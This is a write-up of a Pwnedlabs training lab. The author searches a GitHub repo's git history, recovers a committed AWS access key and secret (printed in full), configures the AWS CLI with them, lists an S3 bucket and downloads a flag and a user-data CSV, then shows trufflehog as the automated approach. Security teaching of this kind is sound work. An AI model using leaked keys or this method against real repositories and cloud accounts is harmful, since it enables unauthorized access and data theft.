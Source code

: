 ```yaml
---
author: Nithissh S
pubDatetime: 2024-03-11T15:22:00Z
modDatetime: 2024-03-11T09:12:47.400Z
title: Hunting for Secrets in Github Repos - Pwnedlabs Writeup
slug: hunt-for-secrets-pwnedlabs
featured: true
draft: false
tags:
  - Trufflehog
  - AWS
  - Pwnedlabs
  - Git
description:
  Understanding the risks of public exposed organization's github repos
---
```


# Initial Entry Point
  

| Repo Name |
| --- |
| [https://github.com/huge-logistics/cargo-logistics-dev](https://github.com/huge-logistics/cargo-logistics-dev) |

  

## Scenario

  

While conducting OSINT on a lesser-known dark web forum as part of assessing your client's threat landscape, you stumble upon a thread discussing high-value targets. Among the chaos of links and boasts, a user casually mentions discovering an intriguing GitHub repository belonging to your client, the international titan, Huge Logistics. A couple of underground researchers hint at having found something but remain cryptic. Your instincts tell you there's more to uncover. Your objective? Dive deep into this repository, trace any associated infrastructure, and uncover any vulnerabilities before they become tomorrow's headline. The clock is ticking. Will you outsmart the adversaries?

  

## To be more clear

We have to assess the organization github repository for any possibility of credentials leakage where we gonna try it out in both the manual and automated way 

  

## Let’s start out with the manual approach 

  

First and foremost, we will clone the github repository using the command `git clone https://github.com/huge-logistics/cargo-logistics-dev`and let’s start out our analysis process

  

```sh
nits@FWS-CHE-LT-8869 pwnedlabs.io % git clone https://github.com/huge-logistics/cargo-logistics-dev
Cloning into 'cargo-logistics-dev'...
remote: Enumerating objects: 1578, done.
remote: Counting objects: 100% (7/7), done.
remote: Compressing objects: 100% (6/6), done.
remote: Total 1578 (delta 2), reused 2 (delta 1), pack-reused 1571
Receiving objects: 100% (1578/1578), 50.12 MiB | 4.96 MiB/s, done.
Resolving deltas: 100% (448/448), done.
```

  

After cloning and going into that repo, we can run `git log`  in order to check for any sensitive actions being performed like where they had deleted or removed any files and found there is action been performed which is `Delete log-s3-test directory` and with commit hash as `ea1a7618508b8b0d4c7362b4044f1c8419a07d99`

  

```sh
nits@FWS-CHE-LT-8869 cargo-logistics-dev % git log
commit 327256a97593085dcee75e70df5f80c51a30c267 (HEAD -> main, origin/main, origin/HEAD)
Author: Ian Austin <iandaustin@outlook.com>
Date:   Wed Jul 5 17:56:49 2023 +0100

    Update

commit ea1a7618508b8b0d4c7362b4044f1c8419a07d99
Author: egre55 <34132245+egre55@users.noreply.github.com>
Date:   Wed Jul 5 17:46:16 2023 +0100

 Delete log-s3-test directory
```

  

Suspecting the particular action, we can able to view the log using the command `git show`  along with the commit hash which shows that there is big change been made and where the `AWS Access key`  and `Secret key`  being disclosed in the following filename `a/log-s3-test/log-upload.php`

  

![](../../assets/images/gitleaks-1.png)

  

Well, let’s configure the following credentials through `awscli`  and with custom profile called `gitleaks`  

  

```sh
nits@FWS-CHE-LT-8869 cargo-logistics-dev % aws configure --profile gitleaks
AWS Access Key ID [None]: AKIAWHEOTHRFSGQITLIY
AWS Secret Access Key [None]: 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
Default region name [None]: us-east-1
Default output format [None]: 
```

  

After configuring the credentials, we found that is credentials belongs to `dev-test`  through `aws sts`  module 

  

```sh
nits@FWS-CHE-LT-8869 cargo-logistics-dev % aws sts get-caller-identity --profile gitleaks
{
    "UserId": "AIDAWHEOTHRF24EMR3SXJ",
    "Account": "427648302155",
    "Arn": "arn:aws:iam::427648302155:user/dev-test"
}
```

  

What can we do with that credentials ? we know that it belongs to user called `dev-test`  but onething to note is we didn’t observe that this user have access to s3 bucket named `huge-logistics-transact` where you can check it into the git logs again and this are the lines of the code for your reference if you feel lazy to scroll up 

  

```diff
-// Send a PutObject request and get the result object.
-$key = 'transact.log';
-
-$result = $s3->putObject([
-       'Bucket' => 'huge-logistics-transact',
-       'Key'    => $key,
-       'SourceFile' => 'transact.log'
-]);
-
-// Print the body of the result by indexing into the result object.
-var_dump($result);
```

  

Enumerating s3 bucket using `aws s3`  module in `aws cli`  with the following command `aws s3 ls s3://huge-logistics-transact` and well we forgot we need to include `--profile gitleaks`  where we initially created a custom profile with the leaked credentials we have.. we found our `flag.txt`  here and through the `aws s3 cp`  we can copy it to our local machine 

  

```sh
nits@FWS-CHE-LT-8869 cargo-logistics-dev % aws s3 ls s3://huge-logistics-transact --profile gitleaks
2023-07-05 21:23:50         32 flag.txt
2023-07-04 22:45:47          5 transact.log
2023-07-05 21:27:36      51968 web_transactions.csv
nits@FWS-CHE-LT-8869 cargo-logistics-dev % aws s3 cp s3://huge-logistics-transact/flag.txt ./ --profile gitleaks
download: s3://huge-logistics-transact/flag.txt to ./flag.txt    
nits@FWS-CHE-LT-8869 cargo-logistics-dev % cat flag.txt
fe108d6a1a0937b0a7620947a678aabf%     
```

  

Well, It doesn’t end here we can also look into file named `web_transcations.csv`  and found that it is disclosing some kind of sensitive informations like `ip address, name and id of the user`  which is obviously not meant to be 

  

![](../../assets/images/gitleaks-2.png) 
  

  

## Automated way of finding the leaks 

  

We can use a tool called `trufflehog`  well In my case, I’m using MacOS where you can install using the command `brew install trufflehog`  or you can also use `gitleaks`

  

![](../../assets/images/gitleaks-3.png)


  

Now run the following trufflehog git `https://github.com/huge-logistics/cargo-logistics-dev` and In the matter of seconds, we found our verified results with the valid username that those credentials belongs to well in our case, It is `dev-test` 

  

![](../../assets/images/gitleaks-4.png) 
 

  

Well the learning outcome is , That’s how we can analyse the organization github repo which are exposed externally for secret keys and In conclusion, we have to reduct our keys if you are deleting the file and rotate the leaked credentials